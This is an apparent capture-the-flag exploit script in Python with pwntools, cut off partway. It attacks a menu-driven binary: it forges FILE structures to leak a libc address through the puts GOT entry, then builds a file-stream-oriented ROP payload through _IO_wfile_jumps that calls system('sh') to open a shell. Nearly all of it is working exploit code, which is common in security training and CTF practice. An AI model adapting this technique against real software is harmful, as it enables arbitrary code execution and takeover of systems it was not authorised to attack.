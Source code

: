 ```python
bstr = lambda x: str(x).encode()
ELF.binsh = lambda self: next(self.search(b"/bin/sh\0"))

GDB_SCRIPT = """
set follow-fork-mode parent
set follow-exec-mode same
b *main+378
b *main+472
c
"""

def conn():
    if args.LOCAL:
        return process([exe.path])
    if args.GDB:
        return gdb.debug([exe.path], gdbscript=GDB_SCRIPT)
    if args.DOCKER:
        return remote("localhost", DOCKER_PORT)
    return remote(REMOTE_NC_CMD.split()[1], int(REMOTE_NC_CMD.split()[2]))

def main():
    r = conn()
    r.recvuntil(b"1.")

    def of(data):
        r.sendline(b"1")
        r.recvuntil(b"What's your name:")
        r.send(data)
        r.recvuntil(b"1.")

    def view(data=None):
        r.sendline(b"3")
        if data:
            r.send(data)
            r.interactive()
        return r.recvuntil(b"1.")

    def write(data):
        r.sendline(b"2")
        r.send(data)
        r.recvuntil(b"1.")

    fp = FileStructure()
    fp.write(exe.got.puts, 8)
    fp._IO_read_ptr = exe.got.puts
    fp._IO_read_end = exe.got.puts+16

    def fsrop(fp=libc.sym._IO_2_1_stdout_, offset=-0x20):
        fs = FileStructure()   
        fs.flags = u64(b' sh\0\0\0\0\0') #the space is important!
        fs._lock = exe.bss(0x200)
        fs._wide_data = fp - 0x10
        fs.unknown2 = p64(0)*4 + p64(libc.sym.system) + p64(fp + 0x60)
        fs.vtable = libc.sym._IO_wfile_jumps + offset   
        return bytes(fs)

    of(b"A"*0x30+bytes(fp)[:32]+p64(0)*8)
    leak = view()[len("me\n2. Write script\n3. View reference\n4. Exit\nChoice: From the reference:\n"):]
    libc.address = u64(leak[len(b"From the reference:\n"):len(b"From the reference:\n")+6]+b"\0\0") - libc.sym.puts
    log.info(hex(libc.address))
    fp = FileStructure()
```
